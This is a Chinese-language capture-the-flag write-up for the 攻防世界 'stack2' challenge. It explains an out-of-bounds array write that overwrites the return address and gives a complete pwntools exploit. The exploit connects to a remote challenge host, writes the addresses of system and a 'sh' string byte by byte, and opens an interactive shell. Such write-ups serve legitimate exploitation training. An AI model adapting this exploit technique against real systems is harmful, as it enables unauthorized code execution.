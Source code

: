 # 攻防世界-stack2

## 分析

数组超界漏洞：

**数组超界**

```reStructuredText
这个漏洞与格式化字符串漏洞相似，虽然数组本身没有那么大，但是下标超过定义范围后，它会认为与栈上的其他数据也是它的，并对其进行操作。

所以在有些情况下，数组超界也可用来泄露Canary的值。这里我们用其来修改返回地址。
```

在寻找数组首址与返回地址的偏移时，要采用动态调试，我们是进行主函数的返回地址覆盖，在程序最后发现esp所对应ret的栈地址向后移动了0x10.

```assembly
lea esp,[ecx-4]
;就是因为这个迷之指令
```

有后门函数但是远程环境没有“/bin/bash”，所以采用调用system函数的方法进行攻击。

## EXP

```python
from pwn import *
context.log_level="DEBUG"

p = remote('220.249.52.133',52159)
#p= process("./stack2")
#pwn_addr=0x0804859B
#sh_addr=0x08048987
#system_plt=0x08048450
offset=0x84

def write(addr,i):
    p.sendlineafter('exit\n','3')
    p.sendlineafter('change:\n',str(addr))
    p.sendlineafter('new number:\n',str(i))

p.sendlineafter('have:\n','1')
p.sendlineafter('numbers\n','1')
#写入system函数地址，小端序反向写入，v13为char数组，按字节写入
write(offset,0x50)
write(offset+1,0x84)
write(offset+2,0x04)
write(offset+3,0x08)

offset=offset+8#偏移+8，用来覆盖system的参数
#写入sh的地址
write(offset,0x87)
write(offset+1,0x89)
write(offset+2,0x04)
write(offset+3,0x08)
#退出，触发返回
p.sendlineafter('exit\n','5')

p.interactive()
```
